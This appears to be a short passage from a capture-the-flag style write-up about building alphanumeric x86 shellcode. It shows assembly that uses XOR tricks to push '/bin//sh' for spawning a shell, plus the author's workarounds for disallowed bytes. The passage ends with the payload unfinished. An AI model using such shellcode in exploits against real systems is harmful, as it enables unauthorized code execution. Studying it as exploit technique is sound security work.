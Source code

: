 ```

    /* push 0x52e3896e */
    push 0x0
    pop eax
    xor eax, 0x31443034
    xor eax, 0x6358465a
    push eax
    push esp
    pop ecx
    inc ecx
    xor [ecx], dh
    inc ecx
    xor [ecx], dh

    /* push 0x69622f68 */
    push 0x0
    pop eax
    xor eax, 0x30304330
    xor eax, 0x59526c58
    push eax

    /* push 0x68732f2f */
    push 0x0
    pop eax
    xor eax, 0x30304343
    xor eax, 0x58436c6c
    push eax

    /* push 0x6852d231 */
    push 0x0
    pop eax
    xor eax, 0x30314141
    xor eax, 0x58636c70
    push eax
    push esp
    pop ecx
    inc ecx
    xor [ecx], dh

    jmp esp
```

Well, `push 0x0` is still invalid ... since edx contains 0xffffffff, we can play some tricks on it.

```
    push edx    ; mov ecx, edx
    pop ecx
    inc ecx
    push ecx    ; now ecx = 0, push it!
```


Okay, everything looks great except `jmp esp`, it's still non alphanumeric.

